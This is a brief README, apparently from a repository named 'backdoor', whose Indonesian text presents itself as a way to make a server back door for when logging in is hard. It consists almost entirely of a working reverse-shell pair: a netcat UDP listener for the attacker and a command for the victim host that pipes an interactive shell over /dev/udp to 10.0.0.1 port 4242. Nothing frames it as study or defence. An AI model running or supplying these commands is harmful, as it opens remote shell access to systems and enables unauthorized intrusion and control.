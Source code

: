 # backdoor
Buat pintu belakang server kalau misal susah login.

ATTACKER
```nc -ulvp 4242```

VICTIM
```sh -i >& /dev/udp/10.0.0.1/4242 0>&1```
